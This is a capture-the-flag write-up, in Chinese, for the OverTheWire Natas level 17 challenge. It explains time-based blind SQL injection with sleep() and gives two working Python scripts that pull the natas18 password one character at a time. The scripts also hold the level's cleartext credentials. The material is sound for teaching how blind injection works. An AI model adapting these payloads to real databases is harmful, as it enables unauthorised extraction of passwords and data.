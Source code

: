 ```
?>
```

这一题依然是考查SQL注入漏洞，不过显然比之前的题目更难了点：因为没有任何回显
所以这次我需要通过sleep()进行延时盲注
输入：natas18" and sleep(5) #
服务端构造的SQL语句：SELECT * from users where username="natas18" and sleep(5) #

```python
import requests
[/color] [color=Black]
url = 'http://natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw@natas17.natas.labs.overthewire.org/index.php'
key =''
 
for i in range(1,33):
    a = 32
    c = 126
    while a<c:
        b = (a+c)/2
        payload=r'natas18" and if(%d<ascii(mid(password,%d,1)),sleep(2),1) and "" like "'%(b,i)
        try:
            req = requests.post(url=url,data={"username":payload},timeout=2)
        except requests.exceptions.Timeout,e:
            a=b+1
            b=(a+c)/2
            continue
        c=b
    key +=chr(b)
    print key
```

```python
import requests 
 
from requests.auth import HTTPBasicAuth  
  
Auth=HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')  
headers = {'content-type': 'application/x-www-form-urlencoded'}  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
  
for char in allchars:  
        payload = 'username=natas18" and password like binary \'%{0}%\' and sleep(5) #'.format(char)  
        r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
        if(r.elapsed.seconds >= 1):  
                filteredchars = filteredchars + char  
                print(filteredchars)  
  
print(filteredchars)  
  
for i in range(0,32):  
        for char in filteredchars:  
                payload = 'username=natas18" and password like binary \'{0}%\' and sleep(5) #'.format(passwd + char)  
                r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
                if(r.elapsed.seconds >= 3):  
                        passwd = passwd + char  
                        print(passwd)  
                        break
```
